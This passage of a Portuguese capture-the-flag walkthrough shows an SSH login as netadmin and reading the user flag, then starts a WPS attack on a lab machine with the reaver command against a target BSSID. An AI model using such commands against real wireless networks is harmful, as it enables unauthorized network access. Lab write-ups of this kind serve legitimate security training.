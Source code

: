 ![Loggin via ssh com o usuário netadmin](screenshots/image-4.png)

próximo passo é ver o que temos nesse diretório. Para isso use o comando ls.

```shell
ls
```

e achamos nossa primeira flag que é o arquivo user.txt, para ver o conteúdo, use o comando cat.

```shell
cat user.txt
```

O próximo passo é explorar a vulnerabilidade **WPS**, para isso iremos usar um exploit que já tem instalado nessa máquina: **reaver**. Na documentação do [reaver](https://github.com/t6x/reaver-wps-fork-t6x), é mostrado que para explorar essa falha é necessário usar o seguinte comando:

```shell
reaver -i wlan0mon -b 00:90:4C:C1:AC:21
```

em que **-i** é a interface e **-b** é o bssid do alvo, para descobrir isso, iremos usar:

```shell
iwscan list
```
